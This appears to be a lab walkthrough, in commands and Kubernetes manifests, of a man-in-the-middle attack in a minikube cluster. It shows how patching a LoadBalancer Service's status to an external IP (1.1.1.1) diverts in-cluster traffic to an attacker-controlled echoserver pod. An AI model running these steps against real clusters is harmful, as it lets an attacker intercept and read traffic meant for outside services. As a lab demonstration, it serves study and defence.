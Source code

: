 Create namespace app
```
kubectl create ns app
```
Deploy "victim-client" pod to simulate an in-cluster HTTP client with curl

```
kubectl apply -f - <<'EOF'
apiVersion: v1
kind: Pod
metadata:
  name: victim-client
  namespace: app
spec:
  containers:
    - name: curl
      image: curlimages/curl:7.67.0
      command: [ "/bin/sleep", "3600" ]
EOF
```

Check that we have access to our external victim (here 1.1.1.1)

```
# from a node
minikube ssh -p cenarioX
curl -sv http://1.1.1.1
curl -sv https://1.1.1.1 -k
# from the pod
kubectl exec -n app victim-client -- curl -sv http://1.1.1.1
kubectl exec -n app victim-client -- curl -sv https://1.1.1.1 -k

```

Deploy "mitm pod"

```
kubectl apply -f - <<'EOF'
apiVersion: v1
kind: Namespace
metadata:
  name: tcc
---
apiVersion: apps/v1
kind: Deployment
metadata:
  name: echoserver
  namespace: tcc
spec:
  replicas: 1
  selector:
    matchLabels:
      app: echoserver
  template:
    metadata:
      labels:
        app: echoserver
    spec:
      containers:
      - image: gcr.io/google_containers/echoserver:1.10
        name: echoserver
        ports:
        - name: http
          containerPort: 8080
        - name: https
          containerPort: 8443
EOF
```

external traffic interception using service type LoadBalancer

```
kubectl apply -f - <<'EOF'
apiVersion: v1
kind: Service
metadata:
  name: mitm-external-lb
  namespace: tcc
spec:
  ports:
  - name: http
    port: 80
    targetPort: 8080
  - name: https
    port: 443
    targetPort: 8443
  selector:
    app: echoserver
  type: LoadBalancer
EOF
kubectl proxy --port=8080 &
sleep 3
curl -k -v -XPATCH  -H "Accept: application/json" -H "Content-Type: application/merge-patch+json" 'http://127.0.0.1:8080/api/v1/namespaces/tcc/services/mitm-external-lb/status' -d '{"status":{"loadBalancer":{"ingress":[{"ip":"1.1.1.1"}]}}}'
pkill kubectl
```

After the patch call, LoadBalancer IP is properly configured (ie not pending)

```
kubectl get -n tcc svc/mitm-external-lb
```

Test if the MITM works
```
# node -> ip
minikube ssh -p cenarioX
curl -sv http://1.1.1.1
curl -sv https://1.1.1.1 -k
# pod -> ip
kubectl exec -n app victim-client -- curl -sv http://1.1.1.1
kubectl exec -n app victim-client -- curl -sv https://1.1.1.1 -k
```

view traffic 

```
stern -n tcc echoserver
```